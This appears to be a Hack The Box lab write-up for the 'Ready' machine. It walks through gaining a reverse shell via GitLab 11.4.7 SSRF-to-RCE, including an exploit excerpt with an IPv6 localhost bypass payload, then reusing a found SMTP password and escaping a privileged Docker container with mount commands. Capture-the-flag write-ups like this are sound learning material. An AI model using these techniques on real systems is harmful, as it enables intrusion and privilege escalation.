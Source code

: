 ```yaml
---
layout: page
title: Ready
description: Write-up
dropdown: HTB-BOXES
priority: 3
---
```

# Ready Walkthrough
![](https://i.ibb.co/dKTF8YB/image.png)



# []()Methodology

* Nmap scan.
* Nginx enumertation.
* Gitlab RCE vis SSRF.
* Getting reverse shell.
* Enumerate Ready using LinPEAS.
* Escaping Docker Privileged Containers.
* RooTed.

## Nmap Scan:

**I just found 22 for ssh and 5080 for nginx.**


![](https://i.ibb.co/yVnQLPW/image.png)

### Check the Nginx service:

![](https://i.ibb.co/6s9FbLF/image.png)

> * It's a Gitlab Service run on Nginx.

> * I registered an account y4h1a:y123456789 

> * It's Version 11.4.7 so i will try to find a CVE for this version.

![](https://i.ibb.co/fFgVMw0/image.png)

> **I found an exploit to get RCE via SSRF vulnerability.**

> * You can do it Manually using this [Method](https://github.com/jas502n/gitlab-SSRF-redis-RCE).

> * I did it with this [exploit](https://github.com/ctrlsam/GitLab-11.4.7-RCE).

* by reading the exploit..

```python
username = args.u
password = args.p
gitlab_url = args.g + ":5080"
local_ip = args.l
local_port = args.P

------------
# Create project
import_url = "git%3A%2F%2F%5B0%3A0%3A0%3A0%3A0%3Affff%3A127.0.0.1%5D%3A6379%2Ftest%2F.git"
project_name = f'project{random.randrange(1, 10000)}'
project_url = f'{gitlab_url}/{username}'

```

> **We will bypass ssrf protection using this payload `[0:0:0:0:0:ffff:127.0.0.1]` and get the reverse shell in our listner. this is the exploit will do.**




![](https://i.ibb.co/4fwTjjV/image.png)


![](https://i.ibb.co/V9RW1Y7/image.png)

### Got the User flag!

![](https://i.ibb.co/NjrQ57w/image.png)


#### Time for enumerate Ready machine.

> * I upload [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to automate the enumeration process for Ready box.

**After it finished i got this in backup files.**


![](https://i.ibb.co/prF3nms/image.png)

```ruby
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"

```
> **I will use this smtp password to switch to root permissions.**


![](https://i.ibb.co/8Mcq2fr/image.png)


![](https://i.ibb.co/FJG9WmH/image.png)

> * Now i'm in docker, so i need to escape to esclate my priviliges.

> * Found this useful [blog](https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1).

```html
mkdir /tmp/y4h1a
mount /dev/sda2 /tmp/y4h1a
mount /dev/sda2 y4h1a
cat /tmp/y4h1a/root/root.txt
```



![](https://i.ibb.co/4jL8HfK/image.png)

# RooTed

<img src="http://www.hackthebox.eu/badge/image/209461" alt="Hack The Box">
![]()


![]()

![]()

![]()


![]()


![]()

![]()

![]()

![]()

![]()

![]()
![]()

![]()
